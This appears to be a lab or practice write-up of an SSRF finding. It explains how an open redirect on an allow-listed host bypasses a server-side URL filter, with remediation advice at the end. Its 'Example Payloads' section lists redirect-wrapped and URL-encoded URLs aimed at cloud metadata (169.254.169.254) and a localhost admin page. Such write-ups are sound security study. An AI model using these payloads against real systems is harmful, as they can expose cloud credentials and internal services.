

# PS-009 — SSRF via Redirect Hop (Allow‑list Bypass)
**Date / Analyst:** 2025-09-16 — Christopher Araque

## TL;DR
The app fetches a user-supplied URL server-side and enforces a domain allow‑list.
An **open redirect** on an allow‑listed host lets an attacker **bounce** the request
to **internal targets** (e.g., `169.254.169.254` or `127.0.0.1`), bypassing the filter.

## Endpoint (fill after recon)
- e.g., **POST** /product/stock  (param/body: `stockApi=<URL>`)

## Allow‑list behavior observed
- External URLs allowed only if host matches an allow‑listed domain (e.g., `https://<allowed-host>...`)
- Direct internal addresses (e.g., `http://169.254.169.254/...`) blocked.

## Exploit approach
1) Find an **open redirect** on an allow‑listed domain (parameters like `next=`, `url=`, `redirect=`, `return=`).
2) Point the SSRF parameter at the allow‑listed **redirector**, which hops to the **internal** target.

## Evidence
- Request/Response: [ps-009-request.txt](../../evidence/ps-ssrf/ps-009-request.txt)
- Screenshot: 

## Example Payloads (for Repeater)
# Allowed domain wrapper (change path/param names to match the found redirector):
https://<allowed-host>/redirect?next=http://169.254.169.254/latest/meta-data/
https://<allowed-host>/redir?url=http://127.0.0.1/admin
# Encoded variants (when first hop requires encoding)
https://<allowed-host>/redirect?next=http%3a%2f%2f169.254.169.254%2flatest%2fmeta-data%2f
https://<allowed-host>/redirect?next=http%253a%252f%252f169.254.169.254%252flatest%252fmeta-data%252f

## Impact
Bypass of SSRF domain allow‑list → access to internal services or cloud metadata (credentials, pivots).

## Recommended Remediation
- Validate final destination **after** redirects; fetch with a policy that **blocks internal IP ranges**.
- Use strict **allow‑list** of full origins; disallow user‑controlled redirects in allow‑listed domains.
- Normalize and resolve DNS, follow **0 redirects** for SSRF fetches, or fetch via an egress proxy with filtering.
